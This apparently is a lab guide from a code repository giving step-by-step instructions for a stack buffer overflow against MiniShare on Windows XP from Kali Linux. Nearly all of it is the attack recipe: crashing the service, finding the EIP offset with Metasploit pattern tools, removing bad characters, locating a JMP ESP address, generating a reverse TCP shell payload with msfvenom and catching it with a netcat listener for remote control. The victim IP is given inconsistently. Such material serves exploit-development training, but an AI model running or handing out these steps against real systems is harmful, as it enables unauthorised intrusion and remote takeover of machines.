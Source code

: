 # buffer_overflow_winXP

The Guideline for Buffer Overflow Attack 
Kali Linux: attacker (192.168.37.128) | Windows XP: victim (192.168.37.134)
--------------------------------------------------------------------------------------------------
-Step1: (Windows), open Minishare, Immunity Debugger/Attach/Minishare
(if needed Immunity Debugger/Debug/Restart (Yes), /Play)

-Step2: (Kali), python mini-1.py 192.168.230.170
check: EIP 41414141

-Step3: (Kali, generate pattern for checking offset value of ESP) 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100
Copy the pattern to mini-2.py

-Step4: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-2.py 192.168.230.170
check: ESP Ch7Ch8Ch9 ...
check: EIP 36684335

-Step5: (Kali, check the offset)
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 36684335
Exact match at offset 1787
Edit mini-3.py

-Step6: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-3.py 192.168.230.170
Check: ESP "CCC ...
Check: EIP 42424242
Add badchars to mini-4.py

-Step7: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-4.py 192.168.230.170
Click ESP, right click/ Follow in Dump, check Hex Dump: 01 02 03 ... 0C 0D 0E ...
Edit mini-5.py, remove the value \x0d

-Step8: Immunity Debugger/Debug/Restart (Yes), /Play
python mini-5.py 192.168.230.170
Click ESP, right click/Follow in Dump, check Hex Dump: don't see 0D

-Step9: Immunity Debugger/Debug/Restart (Yes)
/View/log, click USER32.dll -> click "e" on the tool bar, double click USER32.dll/right click/Search for/Command: JMP ESP, remember the address value 7E429353 that is added value to mini-6.py

-Step10: (Kali, create a shellcode) msfvenom -p windows/shell_reverse_tcp lhost=192.168.37.128 lport=443 -b "\x00\x0d" -f c -e x86/shikata_ga_nai
Add the shellcode to mini-6.py, remove the badchars.

-Step11: (Kali) nc -lvp 443

-Step12: Exit Immunity Debugger. Open Minishare.
python mini-6.py 192.168.230.170
(Kali) At the terminal running nc -lvp 443 dumps the terminal of Windows XP (for example: C:\Documents and Settings\victim\Desktop\MiniShare>). Now, you can run commands for remote control.
                                                                                             

